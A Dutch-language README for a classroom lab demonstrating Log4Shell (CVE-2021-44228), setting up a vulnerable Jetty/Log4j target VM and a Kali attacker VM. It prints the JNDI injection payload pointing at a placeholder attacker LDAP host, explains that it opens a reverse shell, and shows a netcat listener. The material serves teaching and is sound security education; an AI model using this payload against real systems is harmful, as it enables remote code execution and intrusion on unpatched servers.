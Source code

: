 # Log4Shell Demonstratie (CVE-2021-44228)

Deze demo toont hoe de Log4Shell-kwetsbaarheid werkt door een gesplitste omgeving op te zetten met een **target machine (Debian)** en een **attacker machine (Kali Linux)**.

---

## 🖥️ Target VM (Debian)
Bevat de kwetsbare Java-webapp met Log4j 2.14.1.

### Vereisten:
- Installatie script target VM (https://raw.githubusercontent.com/DenzelBasteleus/VmSoftware/refs/heads/main/vm_softwaredebian.sh)

### Stappen:
Open op je VM een terminal, je zal zien dat in je home directory een file CyberSec25 aanwezig is.
```bash
cd CyberSec25/scripts
chmod +x setup_target.sh
sudo ./setup_target.sh
```
Het script zal de nodige libraries installeren om een jetty webapplicatie op te stellen.

Deze wordt vervolgens gehost op: [http://localhost:8080].

Je target VM is opgezet.

---

## ⚔️ Attacker VM (Kali)
Start een LDAP- en HTTP-server om een exploit via JNDI te leveren.

### Vereisten:
- Installatie script attacker VM (https://raw.githubusercontent.com/DenzelBasteleus/VmSoftware/refs/heads/main/vm_softwareLinux.sh)

### Stappen:
```bash
cd CyberSec25/scripts
chmod +x setup_attacker.sh
./setup_attacker.sh
```
Browse via je webbrowser naar de webapplicatie van je target VM.

Dit is normaal gezien http://targetVM-IP:8080

Gebruik de volgende payload in het formulier op de target:
```text
${jndi:ldap://<attacker-ip>:1389/a}
```
- jndi = een Java API waarmee je objecten kunt opzoeken
- ldap:// = het protocol
- 10.0.2.5 = IP van de aanvaller / LDAP-server
- :1389 = standaard poort voor LDAP
- /a = zoekpad of zoek-id in de LDAP-directory

De exploit zal een reverse-shell starten vanop de target VM.
Hiervoor moeten we een listener opzetten:
```bash
nc -lvnp 4444
```
---

## 📁 Structuur
```
CyberSec25/
├── exploit/         # Exploit.java
├── ldap/            # LDAPServer.java (UnboundID)
├── webapp/          # Jetty + Log4j kwetsbare app
├── scripts/
│   ├── setup_target.sh
│   └── setup_attacker.sh
├── log4j2.xml
└── test_payload.txt
```

## ⚠️ Disclaimer
Gebruik dit enkel in een veilige testomgeving. De auteur is niet verantwoordelijk voor verkeerd gebruik.
